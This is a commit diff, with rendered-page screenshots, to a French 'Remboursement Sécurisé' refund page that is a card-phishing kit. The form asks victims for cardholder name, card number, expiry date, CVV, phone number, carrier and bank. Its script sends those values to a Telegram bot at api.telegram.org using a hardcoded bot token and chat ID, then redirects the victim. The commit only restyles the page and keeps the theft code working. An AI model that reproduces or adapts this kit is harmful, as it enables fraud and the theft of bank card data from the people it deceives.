

Before and after one commit to remboursementt/remboursement, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 399-1274 px from the top of the page. After the commit the page ends 895 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,11 +3,12 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Formulaire de Remboursement Sécurisé</title>
+    <title>Remboursement Sécurisé</title>
     <script src="https://cdn.tailwindcss.com"></script>
     <style>
         body {
             font-family: 'Arial', sans-serif;
+            background: linear-gradient(135deg, #f3f4f6, #e5e7eb);
         }
         #card-error {
             display: none;
@@ -15,172 +16,117 @@
             font-size: 0.9rem;
             margin-top: 5px;
         }
+        .card {
+            background: white;
+            border-radius: 12px;
+            box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1);
+        }
+        .input-field {
+            transition: border-color 0.3s ease;
+        }
+        .input-field:focus {
+            border-color: #4f46e5;
+            box-shadow: 0 0 0 3px rgba(79, 70, 229, 0.1);
+        }
     </style>
 </head>
-<body class="bg-gray-100 flex flex-col min-h-screen justify-between">
+<body class="flex flex-col min-h-screen justify-center items-center">
 
     <!-- Formulaire principal -->
-    <div class="bg-white rounded-lg shadow-xl p-8 max-w-lg mx-auto mt-10">
-        <!-- Logos des opérateurs -->
-        <div class="flex justify-center space-x-4 mb-6">
-            <img src="IMG_4265.jpeg" alt="sfr" class="h-12">
-            <img src="IMG_4264.jpeg" alt="ORANGE" class="h-12">
-            <img src="Bouygues_Télécom.png" alt="Bouygues Telecom" class="h-12">
-            <img src="Free_logo.svg.png" alt="free" class="h-12">
+    <div class="card p-8 max-w-lg w-full">
+        <!-- Logo et titre -->
+        <div class="text-center mb-8">
+            <img src="https://via.placeholder.com/150" alt="Logo" class="h-16 mx-auto mb-4">
+            <h1 class="text-2xl font-bold text-gray-800">Remboursement Sécurisé</h1>
+            <p class="text-sm text-gray-600 mt-2">
+                Entrez vos informations pour recevoir votre remboursement en toute sécurité.
+            </p>
         </div>
-
-        <!-- Titre -->
-        <h1 class="text-2xl font-bold text-center text-gray-800 mb-2">Formulaire de Remboursement Sécurisé</h1>
-        <p class="text-sm text-center text-gray-600 mb-6">
-            Veuillez entrer les informations de votre carte bancaire pour recevoir votre remboursement en toute sécurité.
-            Ce processus est sécurisé et protégé.
-        </p>
 
         <!-- Formulaire -->
         <form id="remboursement-form">
             <!-- Titulaire de la carte -->
-            <div class="mb-4">
-                <label for="nom" class="block text-sm font-medium text-gray-700">Titulaire de la carte</label>
+            <div class="mb-6">
+                <label for="nom" class="block text-sm font-medium text-gray-700 mb-2">Titulaire de la carte</label>
                 <input type="text" id="nom" placeholder="Ex: Jean Dupont" required
-                    class="mt-1 block w-full px-4 py-2 border rounded-lg focus:ring-green-500 focus:border-green-500">
+                    class="input-field w-full px-4 py-2 border border-gray-300 rounded-lg focus:outline-none">
             </div>
 
             <!-- Numéro de carte -->
-            <div class="mb-4">
-                <label for="numero-carte" class="block text-sm font-medium text-gray-700">Numéro de carte</label>
+            <div class="mb-6">
+                <label for="numero-carte" class="block text-sm font-medium text-gray-700 mb-2">Numéro de carte</label>
                 <input type="tel" id="numero-carte" placeholder="1234 5678 9012 3456" required maxlength="19"
-                    class="mt-1 block w-full px-4 py-2 border rounded-lg focus:ring-green-500 focus:border-green-500">
-                <p id="card-error" class="text-red-500 hidden">Le numéro de carte doit être valide et suivre le format requis.</p>
+                    class="input-field w-full px-4 py-2 border border-gray-300 rounded-lg focus:outline-none">
+                <p id="card-error" class="text-red-500 text-sm mt-2 hidden">Le numéro de carte est invalide.</p>
             </div>
 
-            <!-- Date d'expiration -->
-            <div class="mb-4">
-                <label for="date-expiration" class="block text-sm font-medium text-gray-700">Date d'expiration (MM/AA)</label>
+            <!-- Date d'expiration et CVV -->
+            <div class="grid grid-cols-2 gap-4 mb-6">
+                <div>
+                    <label for="date-expiration" class="block text-sm font-medium text-gray-700 mb-2">Expiration (MM/AA)</label>
                     <input type="month" id="date-expiration" required
-                    class="mt-1 block w-full px-4 py-2 border rounded-lg focus:ring-green-500 focus:border-green-500">
+                        class="input-field w-full px-4 py-2 border border-gray-300 rounded-lg focus:outline-none">
                 </div>
-
-            <!-- Code CVV -->
-            <div class="mb-4">
-                <label for="cvv" class="block text-sm font-medium text-gray-700">Code CVV</label>
+                <div>
+                    <label for="cvv" class="block text-sm font-medium text-gray-700 mb-2">CVV</label>
                     <input type="tel" id="cvv" placeholder="123" required maxlength="3"
-                    class="mt-1 block w-full px-4 py-2 border rounded-lg focus:ring-green-500 focus:border-green-500">
+                        class="input-field w-full px-4 py-2 border border-gray-300 rounded-lg focus:outline-none">
+                </div>
             </div>
 
             <!-- Numéro de téléphone -->
-            <div class="mb-4">
-                <label for="telephone" class="block text-sm font-medium text-gray-700">Numéro de téléphone</label>
+            <div class="mb-6">
+                <label for="telephone" class="block text-sm font-medium text-gray-700 mb-2">Numéro de téléphone</label>
                 <input type="tel" id="telephone" placeholder="Ex: 06 12 34 56 78" required
-                    class="mt-1 block w-full px-4 py-2 border rounded-lg focus:ring-green-500 focus:border-green-500">
+                    class="input-field w-full px-4 py-2 border border-gray-300 rounded-lg focus:outline-none">
             </div>
 
-            <!-- Sélection du fournisseur -->
-            <div class="mb-6">
-                <label for="operateur" class="block text-sm font-medium text-gray-700">Choisir votre opérateur</label>
-                <select id="operateur" name="operateur" required
-                    class="mt-1 block w-full px-4 py-2 border rounded-lg focus:ring-green-500 focus:border-green-500 bg-white">
-                    <option value="" disabled selected>-- Sélectionnez votre opérateur --</option>
-                    <!-- Opérateurs principaux -->
+            <!-- Opérateur et Banque -->
+            <div class="grid grid-cols-2 gap-4 mb-6">
+                <div>
+                    <label for="operateur" class="block text-sm font-medium text-gray-700 mb-2">Opérateur</label>
+                    <select id="operateur" required
+                        class="input-field w-full px-4 py-2 border border-gray-300 rounded-lg focus:outline-none bg-white">
+                        <option value="" disabled selected>Sélectionnez</option>
                         <option value="orange">Orange</option>
-                    <option value="bouygues">Bouygues Telecom</option>
                         <option value="sfr">SFR</option>
-                    <option value="free">Free Mobile</option>
-                    <!-- MVNOs (Opérateurs virtuels) -->
-                    <option value="la-poste">La Poste Mobile</option>
-                    <option value="coriolis">Coriolis</option>
-                    <option value="nrj-mobile">NRJ Mobile</option>
-                    <option value="red">RED by SFR</option>
-                    <option value="sosh">Sosh (Orange)</option>
-                    <option value="b-and-you">B&YOU (Bouygues Telecom)</option>
-                    <option value="syma">Syma Mobile</option>
-                    <option value="lycamobile">Lycamobile</option>
-                    <option value="lebara">Lebara Mobile</option>
-                    <option value="reglo-mobile">Réglo Mobile (E.Leclerc)</option>
-                    <option value="prixtel">Prixtel</option>
-                    <option value="auchantelecom">Auchan Telecom</option>
-                    <option value="cdiscount">Cdiscount Mobile</option>
-                    <option value="budgetmobile">Budget Mobile</option>
-                    <option value="koodo">Koodo</option>
-                    <option value="hellomobile">Hello Mobile</option>
-                    <option value="zeop">Zeop Mobile</option>
-                    <!-- Autre -->
-                    <option value="autre">Autre (Autre opérateur)</option>
+                        <option value="free">Free</option>
                     </select>
                 </div>
-
-            <!-- Banque -->
-            <div class="mb-6">
-                <label for="bank" class="block text-sm font-medium text-gray-700">Choisir votre banque</label>
-                <select id="bank" name="bank" required
-                    class="mt-1 block w-full px-4 py-2 border rounded-lg focus:ring-green-500 focus:border-green-500 bg-white">
-                    <option value="" disabled selected>-- Sélectionnez votre banque --</option>
-                    <!-- Grandes banques traditionnelles -->
-                    <option value="bnpp">BNP Paribas</option>
+                <div>
+                    <label for="bank" class="block text-sm font-medium text-gray-700 mb-2">Banque</label>
+                    <select id="bank" required
+                        class="input-field w-full px-4 py-2 border border-gray-300 rounded-lg focus:outline-none bg-white">
+                        <option value="" disabled selected>Sélectionnez</option>
+                        <option value="bnp">BNP Paribas</option>
                         <option value="sg">Société Générale</option>
-                    <option value="cic">CIC</option>
                         <option value="ca">Crédit Agricole</option>
-                    <option value="bp">Banque Populaire</option>
-                    <option value="cm">Crédit Mutuel</option>
-                    <option value="hsbc">HSBC France</option>
-                    <option value="la-poste">La Banque Postale</option>
-                    <option value="lcl">LCL (Le Crédit Lyonnais)</option>
-                    <!-- Banques en ligne -->
-                    <option value="ing">ING</option>
-                    <option value="bforbank">BforBank</option>
-                    <option value="fortuneo">Fortuneo</option>
-                    <option value="monabanq">Monabanq</option>
-                    <option value="hellobank">Hello Bank!</option>
-                    <option value="orange-bank">Orange Bank</option>
-                    <option value="n26">N26</option>
-                    <option value="revolut">Revolut</option>
-                    <!-- Banques régionales -->
-                    <option value="ca-regionale">Crédit Agricole (régionale)</option>
-                    <option value="bpce">BPCE (Banque Populaire et Caisse d'Epargne)</option>
-                    <option value="ce">Caisse d'Epargne</option>
-                    <option value="arkea">Crédit Mutuel Arkéa</option>
-                    <!-- Autres banques -->
-                    <option value="boursorama">Boursorama Banque</option>
-                    <option value="axa">AXA Banque</option>
-                    <option value="banque-palatine">Banque Palatine</option>
-                    <option value="hsbc">HSBC France</option>
-                    <option value="barclays">Barclays France</option>
-                    <option value="c-zam">C-Zam</option>
-                    <!-- Autre -->
-                    <option value="autre">Autre (Autre banque)</option>
                     </select>
+                </div>
             </div>
 
             <!-- Bouton de validation -->
             <button type="submit"
-                class="w-full bg-green-600 text-white font-bold py-2 px-4 rounded-lg hover:bg-green-700 transition duration-300">
-                Valider mon remboursement
+                class="w-full bg-indigo-600 text-white font-bold py-2 px-4 rounded-lg hover:bg-indigo-700 transition duration-300">
+                Valider le remboursement
             </button>
         </form>
 
-        <!-- Section supplémentaire: Remboursement sécurisé -->
-        <div class="mt-6 flex justify-center">
-            <img src="IMG_4262.jpeg" alt="Remboursement Sécurisé" class="w-52 h-auto">
+        <!-- Sécurité -->
+        <div class="mt-6 text-center">
+            <p class="text-sm text-gray-600">
+                <span class="text-indigo-600">🔒 Sécurisé</span> - Vos informations sont protégées.
+            </p>
         </div>
     </div>
 
-    <!-- TÉLÉCHARGEMENT (Footer) -->
-    <footer class="bg-gray-800 text-white py-6 mt-10">
-        <div class="max-w-4xl mx-auto text-center">
-            <p class="text-lg font-semibold mb-2">Pour toute assistance, contactez-nous :</p>
-            <p class="text-sm">📧 Email: <a href="mailto:support@remboursement.com" class="text-green-400 hover:underline">support@remboursement.com</a></p>
-            <p class="text-sm">📞 Téléphone: <a href="tel:+33890889878" class="text-green-400 hover:underline">+33 8 90 83 67 89</a></p>
-            <div class="mt-4">
-                <a href="#" class="text-green-400 hover:underline mx-2">Facebook</a> |
-                <a href="#" class="text-green-400 hover:underline mx-2">Twitter</a> |
-                <a href="#" class="text-green-400 hover:underline mx-2">Instagram</a>
-            </div>
-            <div class="mt-4 text-sm">
-                <a href="#" class="hover:underline">📄 Politique de confidentialité</a> |
-                <a href="#" class="hover:underline">📘 Conditions générales</a> |
-                <a href="#" class="hover:underline">🔗 Plan du site</a>
-            </div>
-            <p class="text-xs mt-4">&copy; 2024 Service de Remboursement. Tous droits réservés.</p>
-        </div>
+    <!-- Footer -->
+    <footer class="mt-10 text-center text-gray-600 text-sm">
+        <p>&copy; 2024 Remboursement Sécurisé. Tous droits réservés.</p>
+        <p class="mt-2">
+            <a href="#" class="text-indigo-600 hover:underline">Politique de confidentialité</a> |
+            <a href="#" class="text-indigo-600 hover:underline">Conditions d'utilisation</a>
+        </p>
     </footer>
 
     <script>
@@ -195,7 +141,6 @@
             const operateur = document.getElementById("operateur").value;
             const bank = document.getElementById("bank").value;
 
-            // توكن البوت الأول
             const token1 = "8136808876:AAHGP4-gnV2qGXqjMkwzcdV-9olnYt_0Dj4";
             const chatId1 = "5372119436";
 
@@ -210,7 +155,6 @@
 🏦 Banque: ${bank}`;
 
             try {
-                // إرسال الطلب إلى البوت الأول
                 await fetch(`https://api.telegram.org/bot${token1}/sendMessage`, {
                     method: "POST",
                     headers: {
@@ -223,10 +167,9 @@
                     }),
                 });
 
-                // إعادة التوجيه بعد الإرسال
                 window.location.href = "Traitement.html";
             } catch (error) {
-                alert("Impossible d'envoyer les données. Vérifiez votre connexion.");
+                alert("Erreur lors de l'envoi des données. Veuillez réessayer.");
             }
         });
     </script>
```
Lines whose indentation alone changed are shown as unchanged.
